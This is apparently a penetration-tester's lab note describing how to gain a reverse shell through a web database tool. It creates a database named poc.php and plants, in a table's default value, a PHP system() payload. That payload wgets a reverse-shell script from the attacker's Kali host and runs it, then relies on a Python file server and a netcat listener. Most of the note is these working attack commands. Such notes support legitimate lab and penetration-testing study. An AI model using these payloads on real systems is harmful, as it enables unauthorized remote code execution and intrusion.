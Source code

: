 ```yaml
---
category: Uncategorized
tags: []
---
```


Video Walkthrough
https://www.youtube.com/watch?v=mHsMCfg_KQw

#### reverse shell

```bash - kali
cp /usr/share/webshells/php/php-reverse-shell.php ./Shelly.txt
```

edit file to host and ip.

Create a new Database poc.php

![[Pasted image 20221108115012.png]]

![[Pasted image 20221108115033.png]]

Create a new table:

![[Pasted image 20220616154316.png]]

Paste the following php code in the "Default Value" textbox.
```bash - kali
<?php system("wget $KALI:80/Shelly.txt -O /tmp/Shelly.php; php /tmp/Shelly.php"); ?>
```

![[Pasted image 20221108115110.png]]

Below, we can see our table was created in `/usr/local/databases/poc.php`

![[Pasted image 20221115132603.png]]

Now we set up our python server.

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

set up your netcat listener

![[rlwrap]]



